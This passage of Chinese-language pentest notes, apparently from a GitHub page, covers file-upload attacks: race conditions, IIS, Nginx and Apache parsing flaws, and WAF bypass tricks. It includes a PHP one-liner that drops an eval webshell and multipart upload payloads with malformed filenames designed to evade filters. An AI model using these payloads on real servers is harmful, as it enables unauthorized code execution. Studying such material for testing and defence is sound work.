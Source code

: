     - 对于多线程的函数的操作，不停上传，不停访问，使得在某条代码之前访问到webshell文件。
- **move_uploaded_file()**     
    - move_uploaded_file会忽略掉文件末尾的/. 所以可以构造 webshell.php/. 针对黑名单且没有过滤.
### **文件解析漏洞**

- **IIS解析漏洞：**
    - 目录解析漏洞(/test.asp/1.jpg)：
        - 在IIS5.x/6.0 中，在网站下建立文件夹的名字为*.asp、*.asa、*.cer、*.cdx的文件夹，那么其目录内的任何扩展名的文件都会被IIS当做asp文件来解释并执行。
        - 例如创建目录 test.asp，那么/test.asp/1.jpg 将被当做asp文件来执行。假设黑客可以控制上传文件夹路径，就可以不管上传后你的图片改不改名都能拿shell了
        - （如果IIS支持PHP,上传一个image.php目录,那么image.php文件夹下的文件也会被当做PHP文件解析。）
    - 文件名解析漏洞(test.asp;.jpg)：
        - 在IIS5.x/6.0 中，分号后面的不被解析，也就是说 xie.asp;.jpg 会被服务器看成是xie.asp。
        - IIS6.0默认的可执行文件除了asp还包含这两种.asa,.cer 。而有些网站对用户上传的文件进行校验，只是校验其后缀名。所以我们只要上传    *.asp;.jpg、*.asa;.jpg、*.cer;.jpg 后缀的文件，就可以通过服务器校验，并且服务器会把它当成asp文件执行。
    - 畸形解析漏洞(test.jpg/*.php)：
        - IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串"/任意文件名.php"就会按照php的方式去解析。
        - 在IIS7.0中，在默认Fast-CGI开启状况下，我们往图片里面写入下面的代码
        - <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>')?>
        - 将文件保存成test.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/test.jpg/x.php，此时神奇的畸形解析开始发挥作用啦。test.jpg将会被服务器当成php文件执行，所以图片里面的代码就会被执行。我们会神奇的发现在 /upload 目录下创建了一个一句话木马文件 shell.php 。
        - 临时解决办法：设置cgi.fix_pathinfo为0
        - 这个解析漏洞和下面讲的Nginx的解析漏洞是一样的。
  - **Nginx解析漏洞**
    - 畸形解析漏洞(test.jpg/*.php)：
    - %00空字节代码解析漏洞：
    - CVE-2013-4547(%20%00)：
  - **Apache解析漏洞**
    - 文件名解析漏洞：
        - 一个文件名为xxx.x1.x2.x3的文件（例如：index.php.fuck），Apache会从x3的位置往x1的位置开始尝试解析，如果x3不属于Apache能解析的扩展名，那么Apache会尝试去解析x2的位置，这样一直往前尝试，直到遇到一个能解析的扩展名为止。
        - 总结存在该漏洞的Apache版本：  
            Apache2.0.x<=2.0.59  
            Apache2.2.x<=2.2.17  
    - .htaccess文件：
### waf绕过
- **填充垃圾信息**：有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；
- 有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。此种情况可以上传一个POST型的数据包，抓包将POST改为GET。然后仍然传输POST的数据。
- 打乱字符；编码技术；拆分组合；创建，匹配。
- 换行，把payload放在分界线前面
```
Content-Disposition: form-data; name="file"; filename="1.p hp" 

Content-Type: image/jpeg 

 

<?php @eval($_POST[1])?> 

-----------------------------127619278770


Content-Disposition: form-data; name="file"; filename=="2.php" 多个等号(不止2，3个)
 Content-Type: image/jpeg
 <?php @eval($_POST[1])?>
 -----------------------------127619278770
```
- 如果只是内容匹配到了<php?可以使用js来设置代码处于php环境中  
`<script language="php">phpinfo();</script>`
